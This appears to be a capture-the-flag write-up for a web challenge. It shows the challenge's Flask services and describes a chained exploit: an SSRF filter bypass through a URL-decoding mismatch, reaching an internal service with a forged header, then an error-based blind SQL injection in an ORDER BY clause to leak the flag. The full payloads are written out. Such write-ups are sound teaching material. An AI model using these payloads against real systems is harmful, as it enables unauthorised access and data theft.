

## Internal Secret  



The `docker-compose.yml` shows that the challenge has three different services, which mirrors an SSRF setup.  

```yaml
version: '3.8'
services:
  web:
    build: ./deploy/web
    ports:
      - "8080:8080"
    depends_on:
      - internalapi
      - redirector
    networks:
      - ctfnet
  internalapi:
    build: ./deploy/internal
    networks:
      - ctfnet
  redirector:
    build: ./deploy/redirector
    networks:
      - ctfnet
networks:
  ctfnet:
```

The service on `http://internalapi:8081` returns the flag if `/admin/flag` is requested, but it must be an internal request.  

```python
from flask import Flask, request, jsonify
import os

app = Flask(__name__)
INTERNAL_IP = "127.0.0.1"

@app.route('/admin/flag')
def admin_flag():
    client_ip = request.headers.get('X-Client-IP','')
    if client_ip != INTERNAL_IP:
        return "unauthorized", 403
    with open('/flag') as f:
        flag = f.read()
    return jsonify({"flag": flag})

@app.route('/internal/metadata')
def metadata():
    return jsonify({"instance-id":"i-ctf1234","secret":"do-not-use"})

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8081)
```

The service on `http://redirector:8081` gives us an SSRF primitive, and we can use it to request `internalapi`.  

```python
from flask import Flask, request, redirect, Response
from urllib.parse import unquote
app = Flask(__name__)
import requests

@app.route('/redir')
def redir():
    to = request.args.get('to','')
    if not to:
        return "provide ?to=", 400
    r = requests.get(to, headers={'X-Client-IP': '127.0.0.1'}, timeout=5)
    return Response(r.content, status=r.status_code, headers={'Content-Type': r.headers.get('Content-Type','text/plain')})

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8081)
```

However, the only service we can interact directly with is `web` on port `8080`.  

The `/fetch` endpoint allows URL requests, but attempts to restrict the hostname to `example.com`.  

```python
ALLOWED_HOST = "example.com"

...

def worker_process(job_id):
    conn = sqlite3.connect(JOB_DB)
    cur = conn.cursor()
    cur.execute("SELECT url FROM jobs WHERE id=?", (job_id,))
    row = cur.fetchone()
    if not row:
        return
    url = row[0]
    log_event('worker_start', job_id, url)
    try:
        resp = requests.get(url, timeout=6, allow_redirects=True)
        snippet = resp.text[:1000].replace('\n',' ')
        result = f"code={resp.status_code} headers={dict(resp.headers)} body_snippet={snippet}"
        cur.execute("UPDATE jobs SET status=?, result=? WHERE id=?", ('done', result, job_id))
        conn.commit()
        log_event('worker_end', job_id, f"code={resp.status_code}")
    except Exception as e:
        cur.execute("UPDATE jobs SET status=?, result=? WHERE id=?", ('error', str(e), job_id))
        conn.commit()
        log_event('worker_error', job_id, str(e))
    finally:
        conn.close()

...

@app.route('/fetch', methods=['POST'])
def fetch():
    url = request.form.get('url', '').strip()
    client_ip = request.remote_addr
    if not url:
        return jsonify({"ok": False, "reason": "no url"}), 400
    try:
        parsed = urlparse(unquote(url))
    except Exception:
        return jsonify({"ok": False, "reason": "bad url"}), 400
    if not host_allowed(parsed):
        return jsonify({"ok": False, "reason": "host not allowed"}), 403
    job_id = enqueue_job(url, client_ip)
    return jsonify({"ok": True, "job_id": job_id}), 200
```

To bypass this, we can exploit a mismatch between the URL validation and the actual request being made.  

`/fetch` uses `urlparse(unquote(url))` when validating our input, but the actual request doesn't URL-decode our input.  

If we pass in `http://example.com%2F@redirector:8081`, `/fetch` will evaluate it as `/@redirector` as an endpoint because of the URL-decode, but in the actual request, the URL isn't decoded, so the hostname will be resolved to `redirector`.  

```
http://example.com%2F@redirector:8081/redir?to=http://internalapi:8081/admin/flag
```

After the request is made, the result is stored in the `jobs` table in the SQLite database.  

In `/audit`, although the records are only fetched from the `audit` table, we can immediately spot an SQLi vuln, as the input is directly interpolated into the query.  

```python
@app.route('/audit')
def audit():
    order = request.args.get('order', 'id').strip()
    if not order:
        return jsonify({"ok": False, "reason": "no order"}), 400
    if not order.startswith('id') and not order.startswith('t'):
        return jsonify({"ok": False, "reason": "no such order"}), 400
    conn = sqlite3.connect(JOB_DB)
    cur = conn.cursor()
    cur.execute(f"SELECT ev, job, info, t FROM audit ORDER BY {order} DESC LIMIT 80")
    rows = cur.fetchall()
    conn.close()
    events = []
    for r in rows[::-1]:
        events.append({"ev": r[0], "job": r[1], "info": r[2], "t": r[3]})
    return jsonify(events)
```

We can use error-based SQLi by attempting to match the flag from the `job` records. If no matches are found, we exceed the size limit of `randomblob()`, causing the server to throw an error.  

```sql
id and case when (select count(*) from jobs where INSTR(result, 'DH{')) then 1 else randomblob(1000000000000000000000000000000) end
```

Using the oracle from above, we can perform a side channel attack to leak the flag.  

Flag: `DH{25af4e05de78012985212b55}`